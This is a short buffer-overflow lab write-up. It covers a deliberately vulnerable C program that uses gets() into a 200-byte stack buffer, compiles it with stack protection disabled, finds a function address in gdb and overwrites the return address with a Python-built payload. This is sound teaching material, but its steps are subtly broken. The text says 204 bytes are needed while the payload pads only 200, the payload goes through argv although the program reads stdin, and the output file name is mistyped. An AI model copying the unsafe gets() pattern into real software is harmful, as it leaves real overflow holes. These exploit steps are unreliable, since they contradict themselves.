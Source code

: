 ﻿# Attacks
___
Firstly, run the docker image
```bash
docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
```
## Bof1.c 
***
```c
#include<stdio.h>
#include<unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
Firstly, we need to compile the code.
```shell script --compile
gcc -g bof1.c -o bof1,out -fno-stack-protector -mpreferred-stack-boundary=2
```
Then, we open the binary in gdb.
```shell script --gdb
gdb -q ./bof1.out
```
In order to run the secretFunc, we need to overwrite the return address of the vuln function with the address of the secretFunc.
And to do that we need to find the address of the secretFunc.
```shell script --gdb-peda
gdb-peda$ p secretFunc
```
output:
```shell script --gdb-peda
$1 = {void ()} 0x804846b <secretFunc>
```
We know the stack frame of the vuln function
![stack frame](https://ibb.co/c2zNhQx)

We know the array is 200 bytes long, and ebp is 4 bytes long, so we need to overwrite 204 bytes to reach the return address.
```shell script --gdb-peda
gdb-peda$ r $(python -c 'print "A"*200 + "\x6b\x84\x04\x08"')
```



